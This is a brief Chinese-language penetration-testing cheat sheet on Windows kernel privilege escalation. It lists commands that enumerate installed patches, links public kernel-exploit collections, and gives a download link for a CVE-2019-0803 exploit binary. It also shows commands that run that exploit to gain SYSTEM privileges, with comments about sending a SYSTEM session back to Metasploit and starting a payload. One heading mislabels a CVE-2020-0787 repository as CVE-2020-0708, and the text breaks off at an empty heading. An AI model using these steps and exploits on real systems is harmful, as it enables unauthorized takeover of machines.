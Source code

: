 提权辅助网页

> https://i.hacking8.com/tiquan

### Windows内核漏洞提权

#### 发现已知内核漏洞

**列出所有补丁**

```shell
wmic qfe get Caption,Description,HotFixID,InstalledOn

powershell -c "Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}"
```

**列出安全更新补丁**

```shell
powershell -c "Get-Hotfix -description 'Security update'"
```

##### **已对外公开EXP **

> Windows平台提权漏洞集合: 
>
> https://github.com/SecWiki/windows-kernel-exploits
>
> 漏洞提权合集
>
> https://github.com/Ascotbe/Kernelhub
>
> http://kernelhub.ascotbe.com/Docs/#/
>
> 在线网站查询补丁对应漏洞
>
> https://i.hacking8.com/tiquan

#### CVE-2019-0803

> https://github.com/k8gege/K8tools/raw/master/CVE-2019-0803.exe

检测是否存在漏洞

```shell
# 反弹SYSTEM权限会话到MSF
cve-2019-0803 cmd "whoami"
#反弹SYSTEM权限会话到MSF
cve-2019-0803 cmd "start demo.exe"
```

#### CVE-2020-0708

> https://github.com/cbwang505/CVE-2020-0787-EXP-ALL-WINDOWS-VERSION/releases

#### Windows系统服务漏洞
